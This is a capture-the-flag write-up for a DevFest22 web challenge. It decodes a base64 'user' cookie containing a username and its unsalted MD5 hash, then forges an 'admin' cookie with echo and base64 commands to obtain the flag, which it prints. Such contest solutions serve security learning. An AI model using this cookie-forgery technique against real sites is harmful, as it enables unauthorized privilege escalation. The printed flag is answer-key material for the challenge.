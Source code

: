 # BiScU1tS

## Write-Up

When you see the description, talking about buiscuits is mainly a references to cookies part of the website.

So when accessing the website http://devfest22-cybersec.gdgalgiers.com:1602, in the cookies section, you can find the following cookies :

```
devfest22_wtm_challenges_session: eyJpdiI6IkswU3FXT3BwTWludng5b0hkYnpyK2c9PSIsInZhbHVlIjoicVo4anNkY1hZb1dJWmo1Y0RmVGhDVWlOelJzd2xqNU5QQlM2ZUsvb1lvQStmQlQ1eUtTTXhmY2dkUkpoWlFDbzR6NCtDaTEyQ0p4VjlZUGtHS0xqaXlyVDVwYUgycFA2ZDRQYm9MaGlZR2ZrRzFBQVcrVjc1N1B3S3VJYlcvMzQiLCJtYWMiOiI2OTU0ZmE0YzlhYjU3MmRlYmRiZWFmOGNjN2YzMTkwMzAyNGUyNGNhZDlmYmVhYjQ0ZWEzMjQ0MjdmOTcxYmNkIiwidGFnIjoiIn0%3D

user: e3VzZXI6Z3Vlc3QsbWQ1KHVzZXIpOjA4NGUwMzQzYTA0ODZmZjA1NTMwZGY2YzcwNWM4YmI0fQ==

XSRF-Token: eyJpdiI6IlhrbVZJa0orWXFFa0ErTkM3SzZITkE9PSIsInZhbHVlIjoiOFJnMytLTldVakg3Mlg2blRhYW1ZdGZTWTBtbUMySndrQXhzY0NsRUxaU2tNSHV6TlkxRVZhRTBubWtSKzZjeDE1M3JIUW51Z1U5YWxWYjFqUSswamJBbUQ2NlJVNC9CcG1hdWNaK0FmTFdmZDI2dnJlUElWak84d2lJREdRcnEiLCJtYWMiOiI3MzA0NDIxNDY2MDAxM2JiOTViODNkN2U1NmQ2NmIzMTM3ZGNlMGFmY2I2YzZjODNjNjBlYzAzYmI0YjZiNTJkIiwidGFnIjoiIn0%3D
```

when seeing the user, you will see it coded in base64, after decoding it you will get :

```
echo "e3VzZXI6Z3Vlc3QsbWQ1KHVzZXIpOjA4NGUwMzQzYTA0ODZmZjA1NTMwZGY2YzcwNWM4YmI0fQ==" | base64 -d
```

```
{user:guest,md5(user)\:084e0343a0486ff05530df6c705c8bb4}
```

Now, we need to change the `user` from `guest` to `admin`. We need also to fix the md5 :

 - Get mdr5 of the `admin` value via this website : https://www.md5hashgenerator.com/
 - Replace the values with the new ones.
 - Encode the result into base64 again.

```
echo -n "{user:admin,md5(user):21232f297a57a5a743894a0e4a801fc3}" | base64
```

**Note :** Note that echo adds a `\n` at the end of the encoded string, make sur to use `-n` option to get rid of it

Here is the result :

```
e3VzZXI6YWRtaW4sbWQ1KHVzZXIpOjIxMjMyZjI5N2E1N2E1YTc0Mzg5NGEwZTRhODAxZmMzfQ==
```

All you have to do now is to change the cookie value of `user` and refresh to get the flag

## Flag

DevFest22{KOoOK132_1337}